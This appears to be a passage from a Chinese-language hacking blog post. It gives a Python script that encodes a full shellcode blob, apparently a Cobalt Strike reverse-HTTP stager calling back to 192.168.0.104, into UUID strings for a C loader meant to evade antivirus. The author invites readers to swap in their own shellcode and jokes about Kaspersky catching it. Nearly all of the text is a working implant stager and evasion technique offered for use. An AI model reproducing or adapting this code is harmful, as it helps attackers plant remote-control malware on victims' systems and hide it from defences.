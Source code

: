 cs 直接上线，这里我们需要用的一个 python 转换 uuid 脚本：

```
import uuid
shellcode=b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x50\x00\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x40\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x76\x31\x62\x53\x00\x7f\x91\xe7\xa6\x06\xaf\x0e\x4c\xd7\x9a\xe9\x05\x62\x44\xda\x5c\x48\x62\xfe\x2c\x1a\xb1\x46\xe5\x9e\x3b\x14\x69\x39\x97\x1f\x0b\xfb\x1a\xf6\x8d\x89\x79\x72\x62\x8f\xcc\x16\x3a\xab\x4c\x4b\x8d\x50\xe4\xb5\xa1\x30\x1f\x46\x17\x84\xa1\x17\x69\xec\x2a\x4a\xfe\xe7\xb0\x87\xb9\x7b\x5c\x61\x3a\xfe\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x4d\x41\x53\x42\x29\x0d\x0a\x00\x79\x00\x1b\x42\x2e\x57\x64\xda\x01\x3c\x02\xc6\x2a\x4a\xda\xc8\x22\x1e\x92\x76\x61\x47\x80\x02\xb1\x8c\x24\x61\x92\x9f\x53\x58\x73\xde\xae\x52\x30\x67\x82\x47\x32\x4b\x35\x10\x11\xfd\xe2\x1d\x2b\x26\x18\x6b\x9d\x85\x58\x10\x32\xa4\x0a\xcd\x92\xc1\x5a\x10\x50\x6b\xe7\x87\x2a\xd9\xcf\xce\x92\x06\x1c\x39\x6b\x75\x42\xfb\x81\x4b\x60\x0b\x56\xcc\x1b\xa7\xe6\x0b\x0f\x49\xdd\xc5\xcc\x48\x0d\xf4\xdb\x98\xf1\xbf\x0d\xa8\x9b\x45\xcb\x4f\x41\x26\x96\xf5\x0d\x4d\xe4\x58\x83\x1f\x81\x6e\x67\xea\x94\xab\x49\x5c\xc0\x6f\x1d\x8c\x78\x8c\xc5\xd7\x01\x4d\xc7\x89\xc1\x8e\xe5\x46\x6d\xab\x99\x5f\xa2\x26\xe1\xcc\x58\x8c\xef\x16\xcd\xe5\x02\x4a\xf9\xe5\x42\x1c\xb8\x4a\x96\x7e\x69\x9a\x30\x37\x97\x0d\x4e\x7e\x4c\xaf\x69\xcc\x9a\x36\xb3\xe5\x2a\x7b\x77\x64\x48\x30\xa3\x44\x27\x76\xd8\xe6\x03\x2a\x56\xeb\xe7\x21\xb1\xf6\x78\x2e\xf0\xaa\x43\xdf\x46\xa3\x95\x14\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x30\x2e\x31\x30\x34\x00\x12\x34\x56\x78\x90\x90"
list = []
for i in range(50):
    bytes_a = shellcode[i * 16: 16 + i * 16]
    b = uuid.UUID(bytes_le=bytes_a)
    list.append(str(b))
with open("shellcode.c","w",encoding="utf-8") as f:
    f.write("const char* uuids[] ={")
    for UUID in list:
        f.write("\""+UUID+"\""+",")
    f.write("};")
print(list)
```

替换 shellcode，你懂我的意思吧！

在实验的时候我忘了关卡巴，然后你懂得！哈哈哈哈哈哈哈哈哈
